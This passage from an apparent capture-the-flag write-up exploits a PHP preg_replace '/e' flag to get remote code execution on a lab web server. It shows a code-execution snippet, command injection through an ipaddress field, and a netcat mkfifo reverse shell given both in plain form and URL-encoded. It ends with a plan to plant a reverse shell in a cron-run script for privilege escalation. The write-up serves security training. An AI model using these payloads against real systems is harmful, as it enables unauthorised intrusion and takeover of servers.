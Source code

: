 > Without the ‘/e’ flag, however, the code simply outputs: `strtoupper(phpinfo())` If we add the flag, like so:     
> ```
<?php
$string = "phpinfo()";
print preg_replace('/^(.*)/e', 'strtoupper(\\1)', $string);?>```

> The function fires and calling the page will actually result in the phpinfo() command spilling results onto the screen.

I did some digging on the vulnerability and I came across a few useful link[s https://bitquark.co.uk/blog/2013/07/2 /the_unexpected_dangers_of_preg_replace](https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace)

 I replaced the pattern value with `%2F%5E%28%2E%2A%29%2F%65` which is url encoded if you decode it the result is `/^(.*)/e`
 and the ipaddress field with the value with ``id`` the ` has to be present or else the /e regex filters won’t filter the pattern properly. If we send the request you can see that under OpenVpn Config Generator there’s the `uid` of the user managing the web server, which is `www-data`.

![](https://cdn-images-1.medium.com/max/800/1*R2AqolR3EeJOw1yZTa-mWA.png)


This mean we have remote code execution on this web server using the regex vulnerability. Now we can create a reverse shell to run on the remote system, Netcat was installed on this system so I made my nc reverse shell


    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i%
    202>&1|nc 10.10.14.x 4444 >/tmp/f

I encoded my shell in URL format. The above shell url encoded would be

    %72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%25%0a%32%30%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%35%2e%78%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66

Now we need to add our encoded shell to the ipaddress value with ``%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%25%0a%32%30%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%35%2e%78%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66`` then we just start our netcat listener `nc -lvp 4444`Click on go in BurpSuite we should have a reverse shell.

![](https://cdn-images-1.medium.com/max/1000/1*fVToYOoEDXZJ3K8ZpQ4GBQ.png)


**Privileged Escalation**
I uploaded LinEnum.sh to /tmp and I noticed that a php file being executed by cron every minute in `/var/www/cronjobs/clearlogs`

![](https://cdn-images-1.medium.com/max/600/1*D9-eBSBYryXkeUDLXFYfkQ.png)


As you can see this file executes a file named `logcleared.sh`under `/var/www/cmd/logcleared.sh`
I went over to the `cmd` directory and the file did not exist or maybe it did before but another user deleted it I redirected another netcat reverse shell to the logcleared.sh file.

